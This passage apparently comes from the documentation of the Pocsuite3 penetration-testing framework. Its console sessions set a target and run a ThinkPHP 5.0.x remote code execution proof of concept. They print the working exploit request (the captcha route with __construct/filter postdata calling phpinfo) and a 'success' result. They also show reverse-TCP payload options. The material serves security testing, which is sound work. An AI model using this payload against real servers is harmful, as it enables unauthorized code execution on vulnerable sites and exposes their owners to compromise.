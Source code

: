 ```
|         |                                |      |                                        |
+---------+--------------------------------+------+----------------------------------------+

Exploit payloads(using reverse tcp):
+-------+------------------+------+-------------------+
|  Name | Current settings | Type |      Descript     |
+-------+------------------+------+-------------------+
| lhost |    *require*     |  Ip  |  Connect back ip  |
| lport |      10086       | Port | Connect back port |
+-------+------------------+------+-------------------+
```



#### set <key> <value> 设置目标的值

```
Pocsuite3 (pocs/thinkphp_rce2) > set target http://tp5023.hopa.cc/
[17:05:32] [INFO] target => http://tp5023.hopa.cc/
Pocsuite3 (pocs/thinkphp_rce2) > check
[17:05:36] [INFO] pocsusite got a total of 1 tasks
[17:05:36] [INFO] running poc:'Thinkphp 5.0.x 远程代码执行漏洞' target 'http://tp5023.hopa.cc/'
[17:05:36] [+] URL : /index.php?s=captcha
[17:05:36] [+] Postdata : _method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1

+------------------------+---------------------------------+--------+-----------+----------------+---------+
| target-url             |             poc-name            | poc-id | component |    version     |  status |
+------------------------+---------------------------------+--------+-----------+----------------+---------+
| http://tp5023.hopa.cc/ | Thinkphp 5.0.x 远程代码执行漏洞 | 97767  |  thinkphp | thinkphp5.0.23 | success |
+------------------------+---------------------------------+--------+-----------+----------------+---------+
success : 1 / 1
```

#### check/attack

```
Pocsuite3 (pocs/thinkphp_rce2) > check
[17:23:53] [INFO] pocsusite got a total of 1 tasks
[17:23:53] [INFO] running poc:'Thinkphp 5.0.x 远程代码执行漏洞' target 'http://tp5023.hopa.cc'
[17:23:53] [+] URL : /index.php?s=captcha
[17:23:53] [+] Postdata : _method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1

+-----------------------+---------------------------------+--------+-----------+----------------+---------+
| target-url            |             poc-name            | poc-id | component |    version     |  status |
+-----------------------+---------------------------------+--------+-----------+----------------+---------+
| http://tp5023.hopa.cc | Thinkphp 5.0.x 远程代码执行漏洞 | 97767  |  thinkphp | thinkphp5.0.23 | success |
+-----------------------+---------------------------------+--------+-----------+----------------+---------+
```
